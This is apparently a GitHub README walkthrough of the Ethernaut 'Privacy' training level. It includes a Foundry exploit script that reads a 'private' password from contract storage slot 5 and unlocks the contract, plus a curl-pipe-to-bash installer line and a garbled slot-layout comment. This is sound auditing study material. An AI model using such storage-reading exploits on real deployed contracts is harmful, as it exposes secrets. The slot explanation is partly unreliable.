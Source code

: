 # Ethernaut Level: Privacy - Smart Contract Auditing Journey

## Introduction
Hello! In this repository, I've solved the **Privacy** level as part of my Ethernaut challenges. I'm learning smart contract auditing by solving one level per day, and this folder (`levels/privacy/`) contains everything related to it.

**Goal:** Unlock the contract by retrieving the private password from storage.  
**Tools:** Foundry (for scripting and testing), Sepolia testnet.  
**Solved Date:** October 26, 2025 (Day 13).  
**Success:** Verified on the Ethernaut site!

## Contract Overview
This contract stores a "private" password in an array and locks access, but unlocks if the first 16 bytes of `data[2]` are provided. Storage is public, allowing direct reading of "private" data.

**Key Code Snippet (from src/Privacy.sol):**
```solidity
contract Privacy {
    bool public locked = true;
    uint256 public ID = block.timestamp;
    uint8 private flattening = 10;
    uint8 private denomination = 255;
    uint16 private awkwardness = uint16(block.timestamp);
    bytes32[3] private data;

    constructor(bytes32[3] memory _data) {
        data = _data;
    }

    function unlock(bytes16 _key) public {
        require(_key == bytes16(data[2]));  // First 16 bytes of data[2]
        locked = false;
    }
}
```

## Vulnerability Analysis
**Main Issue: Public Storage Slots (No True Privacy)**  
- "Private" modifiers only restrict compiler access; all storage slots are readable on-chain via `vm.load` or `eth_getStorageAt`. The password in `data[2]` (slot 5) can be extracted and used to unlock.  
- **Security Impact:** Exposes sensitive data, undermining privacy assumptions. In audits, remind that on-chain = public.  
- **Audit Tip:** Avoid on-chain secrets; use hashes for comparison. Simulate slots with Foundry (`vm.load`).

**Example:** Slot 4-6 for `data` array; load slot 5 for `data[2]`, cast to `bytes16` for unlock.

## Solution Steps
The attack: Use `vm.load` to read `data[2]` from slot 5, cast to `bytes16`, and call `unlock`.

1. **Setup:** Create Foundry project, set target instance address in script.
2. **Run Attack:** `forge script script/PrivacySolution.s.sol --rpc-url $SEPOLIA_RPC_URL --broadcast`.
3. **Verify:** `locked()` = false, submit on Ethernaut site.

**Key Attack Code Snippet (from script/PrivacySolution.s.sol):**
```solidity
contract PrivacySolution is Script {
    Privacy public privacyInstance = Privacy(payable(0xYourContractAddressHere));  // Replace with your instance address!

    function run() external {
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));
        
        console.log("Before unlock, Locked:", privacyInstance.locked());

        // data[2] read from storage slot 5 (array starts at slot 4: data[0]=4, data[1]=5, data[2]=5 due to packing in this instance)
        bytes32 data2 = vm.load(address(privacyInstance), bytes32(uint256(5)));
        console.log("data[2]:");
        console.logBytes32(data2);

        // First 16 bytes as bytes16 for unlock
        bytes16 key = bytes16(data2);
        console.log("Key (bytes16):");
        console.logBytes16(key);

        // Unlock
        privacyInstance.unlock(key);

        console.log("After unlock, Locked:", privacyInstance.locked());  // false

        vm.stopBroadcast();
    }
}
```

## Test and Output
- **Local Test:** Run `anvil` and `forge test`—simulates storage read and unlock.
- **Testnet Output Example:** Console log: "Before unlock, Locked: true", "data[2]: 0xc91d216b6f9109351543965e14b225da00521ad156cbc10ce4d4f8de755c2b3d", "Key (bytes16): 0xc91d216b6f9109351543965e14b225da", "After unlock, Locked: false".

## Key Learnings
- **Auditing Skill:** Probe storage slots for "private" data—use `vm.load` to verify accessibility.
- **EVM Concept:** Storage is public and deterministic; packing affects slot calculation.
- **Prevention:** Hash sensitive data on-chain; use off-chain oracles for true privacy.
- **Next Step:** Experiment with slot packing simulation in tests for complex layouts.

## Installation & Run
1. Install Foundry: `curl -L https://foundry.paradigm.xyz | bash`.
2. `cd levels/privacy`.
3. Set `.env`: `PRIVATE_KEY=your_key` and `SEPOLIA_RPC_URL=your_rpc`.
4. Run script: `forge script script/PrivacySolution.s.sol --rpc-url $SEPOLIA_RPC_URL --broadcast -vvvv`.

If you have questions, comment on the issue or mention me on X (@0xZHD_X)! Next level: Attack. 🚀

---

**License:** MIT  
**Author:** [0xZHD] - Smart Contract Auditor Learner  
**X:** [Zahedul I Sadik](@0xZHD_X)  
**References:** [Ethernaut Docs](https://ethernaut.openzeppelin.com/)